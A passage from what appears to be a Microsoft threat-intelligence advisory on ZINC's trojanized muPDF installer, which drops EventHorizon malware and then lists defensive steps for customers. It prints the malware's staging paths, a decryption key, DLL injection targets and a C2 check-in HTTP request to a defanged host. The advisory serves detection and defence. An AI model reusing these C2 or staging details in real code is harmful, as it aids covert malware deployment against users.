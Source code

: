 Within the trojanized version of muPDF/Subliminal Recording installer, setup.exe is configured to check if the file path ISSetupPrerequisites\Setup64.exe exists and write C:\colrctl\colorui.dll on disk after extracting the embedded executable inside setup.exe. It then copies C:\Windows\System32\ColorCpl.exe to C:\ColorCtrl\ColorCpl.exe. For the second stage malware, the malicious installer creates a new process C:\colorctrl\colorcpl.exe C3A9B30B6A313F289297C9A36730DB6D, and the argument C3A9B30B6A313F289297C9A36730DB6D gets passed on to colorui.dll as a decryption key. The DLL colorui.dll, which Microsoft is tracking as the EventHorizon malware family, is injected into C:\Windows\System\credwiz.exe or iexpress.exe to send C2 HTTP requests as part of the victim check-in process and to get an additional payload.
POST /support/support.asp HTTP/1.1 Cache-Control: no-cache Connection: close Content-Type: application/x-www-form-urlencoded Accept: */* User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Win64; x64; Trident/4.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR 3.0.30729; InfoPath.3; .NET4.0C; .NET4.0E) Content-Length: 125 Host: www.elite4print[.]com   bbs=[encrypted payload]= &article=[encrypted payload]  
Microsoft will continue to monitor ZINC activity and implement protections for our customers. The current detections and IOCs in place across our security products are detailed below.
Recommended customer actions
The techniques used by the actor and described in the “Observed actor activity” section can be mitigated by adopting the security considerations provided below:

Use the included indicators of compromise to investigate whether they exist in your environment and assess for potential intrusion.
Block in-bound traffic from IPs specified in the “Indicators of compromise” table.
Review all authentication activity for remote access infrastructure, with a particular focus on accounts configured with single factor authentication, to confirm authenticity and investigate any anomalous activity.
Enable multifactor authentication (MFA) to mitigate potentially compromised credentials and ensure that MFA is enforced for all remote connectivity.  NOTE: Microsoft strongly encourages all customers download and use password-less solutions like Microsoft Authenticator to secure your accounts.
Educate end users about preventing malware infections, including by ignoring or deleting unsolicited and unexpected emails with ISO attachments. Encourage end users to practice good credential hygiene—limit the use of accounts with local or domain admin privileges and turn on Microsoft Defender Firewall to prevent malware infection and stifle propagation.
Educate end users about protecting personal and business information in social media, filtering unsolicited communication, identifying lures in spear-phishing email and watering holes, and reporting of reconnaissance attempts and other suspicious activity.

Indicators of compromise (IOCs)
The below list provides IOCs observed during our investigation. We encourage our customers to investigate these indicators in their environments and implement detections and protections to identify past related activity and prevent future attacks against their systems.